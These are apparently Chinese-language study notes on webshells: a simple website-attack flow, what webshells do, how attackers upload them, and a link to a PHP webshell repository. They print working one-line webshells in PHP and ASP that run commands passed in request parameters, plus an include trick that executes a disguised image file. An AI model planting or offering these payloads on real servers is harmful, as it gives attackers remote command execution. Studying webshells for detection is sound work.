 >   Webshell/暗链原理与实践



**黑客攻击网站简易流程**

1.  信息探测
2.  注入/XSS点
3.  获取数据
4.  破解密码
5.  登陆后台
6.  上传webshell
7.  提权控制服务器
8.  渗透内网

资源文章：https://cloud.tencent.com/developer/column/81887

注：webshell是没有进程的，它只是一个文件。 



Webshell在攻击过程中的作用：

-   文件操作
-   命令执行
-   数据库操作
-   用户提权
-   Shell反弹
-   权限维持

php webshell：https://github.com/Arrexel/phpbash



黑客通过那些途径上传webshell ?

-   漏洞
-   第三方组件
-   Web容器
-   拿到后台（各种姿势)

```
## 一句话木马 ##
<?php echo system($_GET['cmd1']);?>  # 这里cmd也可以不使用单引号包裹
<?php echo system($_POST['cmd1']);?> 
<%eval request("sb")%>
 
    
## 猥琐型 ##
<?php include 'shell.jpg';?>  # 包含并运行被包含的文件，包含文件可以是jpg,txt,png啥都行
```



什么是webshell：

以web服务端脚本（程序）形式存在，与传统服务端脚本的运行原理相同。对服务器本地资源具备一定的操作能力，其操作本地资源的范围取决于**解析器（如：apache）**的权限。



功能原理：
